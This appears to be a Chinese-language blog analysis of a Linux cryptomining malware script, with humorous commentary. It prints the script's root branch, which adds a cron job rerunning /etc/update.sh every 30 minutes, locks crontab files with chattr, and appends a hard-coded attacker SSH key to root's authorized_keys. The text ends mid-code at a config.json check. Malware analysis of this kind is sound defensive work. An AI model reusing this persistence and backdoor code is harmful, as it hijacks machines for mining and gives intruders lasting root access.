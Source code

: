 虽然在你的地盘，但是得听我的，大爷用不上你，就kill你。

<s>属实冷酷无情。</s>

**lock_cron()**

> 加锁函数，用于给执行计划和执行计划任务程序加锁。

> chattr -R 递归处理指定目录及子目录下所有文件文件

> /var/spool/cron/这个目录是以账号来区分每个用户自己的执行计划

> /etc/crontab系统执行计划

**unlock_cron()**

> 对应解锁函数。

这两个函数没啥说的，就是把两行的事浓缩成一行

<s>“节能减排，避免铺张浪费，阿矿真节约。”</s>

### **4、主要程序逻辑**

> 这部分由一个复杂的判断逻辑构成，主要应对各种环境，以实现挖矿事业。

```
if [ -f "$rtdir" ]
 
then
echo "i am root"
echo "goto 1" &gt;&gt; /etc/sysupdates
chattr -i /etc/sysupdate*
chattr -i /etc/config.json*
chattr -i /etc/update.sh*
chattr -i /root/.ssh/authorized_keys*
chattr -i /etc/networkservice
#设置计划任务，每三十分钟执行一次update.sh,以便跟上组织的步伐，及时调整战术措施qaq
if [ ! -f "/usr/bin/crontab" ]
then
unlock_cron
echo "*/30 * * * * sh /etc/update.sh &gt;/dev/null 2&gt;&amp;1" &gt;&gt; ${crondir}
lock_cron
else
unlock_cron
[[ $cont =~ "update.sh" ]] || (crontab -l ; echo "*/30 * * * * sh /etc/update.sh &gt;/dev/null 2&gt;&amp;1") | crontab -
lock_cron
fi
# 读写执行权限
chmod 700 /root/.ssh/
# 换个行
echo &gt;&gt; /root/.ssh/authorized_keys
# 读写执行权限
chmod 600 root/.ssh/authorized_keys
# 追写ssh秘钥
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9WKiJ7yQ6HcafmwzDMv1RKxPdJI/oeXUWDNW1MrWiQNvKeSeSSdZ6NaYVqfSJgXUSgiQbktTo8Fhv43R9FWDvVhSrwPoFBz9SAfgO06jc0M2kGVNS9J2sLJdUB9u1KxY5IOzqG4QTgZ6LP2UUWLG7TGMpkbK7z6G8HAZx7u3l5+Vc82dKtI0zb/ohYSBb7pK/2QFeVa22L+4IDrEXmlv3mOvyH5DwCh3HcHjtDPrAhFqGVyFZBsRZbQVlrPfsxXH2bOLc1PMrK1oG8dyk8gY8m4iZfr9ZDGxs4gAqdWtBQNIN8cvz4SI+Jv9fvayMH7f+Kl2yXiHN5oD9BVTkdIWX root@u17" &gt;&gt; /root/.ssh/authorized_keys
 
# 莫名的赋值，不解
cfg="/etc/config.json"
file="/etc/sysupdate"
 
# 检查有没有config.json,如果有则检查是否是自己人,不是就杀掉,换成自己人;
# 如果不存在就重新下载
if [-f "/etc/config.json" ]
```
